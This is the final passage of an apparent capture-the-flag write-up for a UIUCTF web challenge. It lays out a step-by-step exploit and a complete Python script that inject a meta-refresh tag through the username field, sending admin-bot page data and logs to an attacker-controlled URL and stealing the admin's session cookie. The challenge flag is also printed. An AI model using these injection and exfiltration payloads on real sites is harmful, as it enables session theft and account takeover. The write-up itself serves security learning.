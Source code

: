 [^2]: The link goes to the directory where no state prefetch is implemented, as you can see, the system implements their own browser, renderer components
## Building the exploit

Coming back to the CTF challenge, with most of the building blocks in place, all I had to do was put it in a python script. The final sequence of actions were as follows:

- Login and visit the `/admin` endpoint with a username similar `<meta http-equiv="refresh" content="0;url=https://url.com?data=`
- Make the admin bot visit the flag
- Login again and visit `/admin` with a username similar to `">` to close the meta tag
- Wait until the `/report` endpoints timeout finishes
- Make the admin bot visit the logs
- Retrieve the session cookie of the admin and visit flag.html with the admin cookie in the browser

## Final exploit

```py
import requests as rq
import time

r = rq.Session()

DEF_URL='http://127.0.0.1:1337'

def report(url):
    resp = r.post(f'{DEF_URL}/report', data={'url': url})
    print(resp.text)

def login(username):
    resp = r.post(f'{DEF_URL}/login', data={'username': username, 'password': 'abc'})
    print(resp.text)

def visit():
    resp = r.get(f'{DEF_URL}/admin?view=flag')
    print(resp.text)


if __name__ == '__main__':
    login('<meta http-equiv="refresh" content="0;url=https://a.url.i.control.com/?data=')
    visit()
    report('http://127.0.0.1:8080/admin?view=file:///flag.html')
    print('Sleeping for 1min')
    time.sleep(1 * 60)
    print('Waking up, execute second payload')
    login('"></meta>')
    visit()
    for i in range(4):
        print('Sleeping for 1min')
        time.sleep(1 * 60)
    print('Waking up, execute last payload')
    report('http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log')
```

## Flag

Flag: ```uiuctf{adminplz_c4n_1_h4v3_s0M3_co0k13s?_b5eab1cc61c26f07e63af7f8}```

[^1]: A great place to start learning about and identifying weird edge cases is the [xsleaks wiki](https://xsleaks.dev) and the [DOMPurify tests](https://github.com/cure53/DOMPurify/blob/main/test/test-suite.js). For documentation regarding these, [MDN docs](https://developer.mozilla.org) and the [Web specifications](https://spec.whatwg.org/) are pretty good as well.